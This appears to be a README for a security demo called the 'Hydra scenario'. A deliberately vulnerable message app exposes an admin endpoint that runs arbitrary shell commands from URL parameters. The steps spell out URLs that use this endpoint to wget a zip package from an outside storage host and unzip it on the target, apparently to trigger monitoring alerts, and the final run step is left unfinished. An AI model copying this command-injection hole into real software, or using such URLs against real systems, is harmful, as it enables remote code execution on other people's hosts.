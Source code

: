 # Hydra scenario

This application lets you write messages, whatever they are (it is certainly possible to hack the message form by itself).
This is entirely managed in-memory, so dev team decided to add endpoints where you can check your log file and decide to load messages directly from the log in case of a restart.

Hitting the http://{yourhost}:{port}/ will let you add messages. 

Hitting http://{yourhost}:{port}/admin lets you start the actual hack by passing command

# Steps

1. Start browsing the app at http://{yourhost}:{port}/, explaining this is the same scenario as having [EVAL command available in Redis](https://redis.io/commands/eval).
2. Then move the the admin page and show the tail or cat command. 
3. Explain you have those links to decide if you'll hydrate messages from the log file or not. But there is an issue as the cat/tail link let you run arbitrary command on the host.
4. Type in the url bar http://{yourhost}:{port}/admin/ops?cmd=wget&args=https://storage.googleapis.com/nwlw-raw-data/sapp.zip . This will download a Hydra pre-packed zip package. (should triggered the 1st alert in LW)
5. Move to http://{yourhost}:{port}/admin/ops?cmd=unzip&args=sapp.zip
6. Last step you can run it using the URL ... Still progressing on packaging the zip to effictively run it

